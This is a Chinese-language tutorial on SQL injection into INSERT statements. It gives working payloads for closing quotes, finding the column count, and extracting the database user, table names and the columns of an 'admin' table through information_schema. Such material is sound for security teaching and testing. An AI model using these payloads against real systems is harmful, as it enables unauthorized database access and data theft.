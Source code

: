 payload:
```
a',user(),'c');-- '
```
说明：–-后面必须有个空格，否则不会当作注释符，也可以用`#`注释。
把payload带入语句中形成的最终语句为：
```
INSERT INTO 表名(col1,col2,col3) VALUES('a',user(),'c');-- '','b','c');   //--后面的都被注释掉了不会执行，VALUES中值的数量要和表名后面字段的数量相同语句才能正常执行。
```

注入过程：
判断列数
```
1',2);-- '
1',2,3);-- '
1',2,3,4);-- '
......
1',2,3,4,5,6,7);-- '
```
说明：最好用数字填充values的值，因为数字可以插入字符型的列，而字符串无法插入数字型的列.
当输入的值的个数和列的个数不匹配的时候，则会插入失败：
![](http://image.ixysec.com/image/sql/sql119.png)

当输入的值的个数和列的个数匹配的时候，则会插入成功。
![](http://image.ixysec.com/image/sql/sql120.png)

从而来判断插入列的个数。

注入数据库用户
```
a',user(),3,4);--     //因为第一列插入的是姓名，字符串类型的，所以需要闭合引号，不然我们的语句都被当做字符串了，闭合后把数据插入到其他列就可以了
```
![](http://image.ixysec.com/image/sql/sql121.png)

插入成功，然后我们看看插入的数据。

![](http://image.ixysec.com/image/sql/sql122.png)

因为我插入到了性别的列中，而我数据库建表时设置的这一列长度为5，所以只显示出5个字符，实战中尽可能选择数据长度比较长的。

注入表名
```
1',2,3,(select group_concat(table_name) from information_schema.tables where table_schema=database()));-- 
```
![](http://image.ixysec.com/image/sql/sql123.png)

然后查看数据:
![](http://image.ixysec.com/image/sql/sql124.png)

注入列
```
1',2,3,(select group_concat(column_name) from information_schema.columns where table_name='admin'));-- 
```
![](http://image.ixysec.com/image/sql/sql125.png)
